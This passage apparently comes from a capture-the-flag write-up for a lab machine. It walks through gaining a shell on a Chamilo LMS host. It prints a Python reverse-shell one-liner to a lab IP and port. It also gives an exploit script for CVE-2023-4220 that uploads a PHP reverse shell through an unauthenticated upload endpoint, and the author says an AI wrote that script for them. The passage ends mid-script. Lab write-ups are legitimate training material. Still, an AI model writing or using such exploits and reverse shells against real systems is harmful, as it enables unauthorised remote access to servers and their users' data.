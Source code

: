 ![image.png](../../../assets/permx/image%2018.png)

I am not able to run plenty of command so better to upgrade the shell

python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.29",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")’

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.29",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")’
```

![image.png](../../../assets/permx/image%2019.png)

running the above command in web shell didn’t work. I was stuck here for a moment. then an idea came in my head. instead of [rce.sh](http://rce.sh) file I can upload reverse shell file. So I asked ai to write code for me. 

```bash
import requests
import argparse
from urllib.parse import urljoin

def upload_reverse_shell(target_url, payload_name, attacker_ip, attacker_port):
    upload_url = urljoin(target_url, "main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported")
    shell_path = f"/main/inc/lib/javascript/bigupload/files/{payload_name}"
    shell_url = urljoin(target_url, shell_path)

    # PHP reverse shell payload
    php_reverse_shell = f"""<?php
$ip = '{attacker_ip}';
$port = {attacker_port};
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>"""

    files = {'bigUploadFile': (payload_name, php_reverse_shell, 'application/x-php')}

    print("[*] Uploading reverse shell...")
    response = requests.post(upload_url, files=files)

    if response.status_code == 200:
        print("[+] File uploaded successfully!")
        print(f"[+] Trigger the shell at: {shell_url}")
        print("[!] Make sure your netcat listener is running before triggering the URL!")
    else:
        print("[-] File upload failed.")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2023-4220 Chamilo LMS Reverse Shell Exploit")
    parser.add_argument('target_url', help="Base URL of the Chamilo LMS (e.g., http://target.com/)")
    parser.add_argument('attacker_ip', help="Your IP address to receive the reverse shell")
    parser.add_argument('attacker_port', type=int, help="Your port to receive the reverse shell")
    parser.add_argument('--shell', default='reverse.php', help="Filename for the uploaded shell (default: reverse.php)")
```